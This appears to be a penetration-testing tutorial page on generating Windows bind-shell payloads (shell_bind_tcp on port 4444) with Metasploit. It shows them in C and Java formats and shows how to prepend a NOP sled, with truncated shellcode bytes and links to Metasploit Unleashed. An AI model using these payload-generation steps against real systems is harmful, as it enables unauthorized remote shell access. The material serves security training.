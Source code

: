```bash
msf  payload(shell_bind_tcp) > generate -t c
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
...snip...
```

```bash
msf  payload(shell_bind_tcp) > generate -t java
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
 * InitialAutoRunScript=, AutoRunScript=
 */
byte shell[] = new byte[]
{
	(byte) 0xfc, (byte) 0xe8, (byte) 0x89, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x60, (byte) 0x89,
	(byte) 0xe5, (byte) 0x31, (byte) 0xd2, (byte) 0x64, (byte) 0x8b, (byte) 0x52, (byte) 0x30, (byte) 0x8b,
	(byte) 0x52, (byte) 0x0c, (byte) 0x8b, (byte) 0x52, (byte) 0x14, (byte) 0x8b, (byte) 0x72, (byte) 0x28,
...snip...
```

### NOP Sled \(-s\)

* Adding a NOP \(**No Operation** or **Next Operation**\) sled is accomplished with the **-s** switch followed by the **number** of NOPs. This will add the sled at the **beginning** of our payload.
* The **larger** the sled the **larger** the shellcode will be. So adding a 10 NOPs will add 10 bytes to the total size.

```bash
msf  payload(shell_bind_tcp) > generate -s 14
# windows/shell_bind_tcp - 355 bytes
# http://www.metasploit.com
# NOP gen: x86/opty2
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xb9\xd5\x15\x9f\x90\x04\xf8\x96\x24\x34\x1c\x98\x14\x4a" +
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

## References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/payloads/" %}

{% embed url="https://www.offensive-security.com/metasploit-unleashed/payload-types/" %}

{% embed url="https://www.offensive-security.com/metasploit-unleashed/generating-payloads/" %}

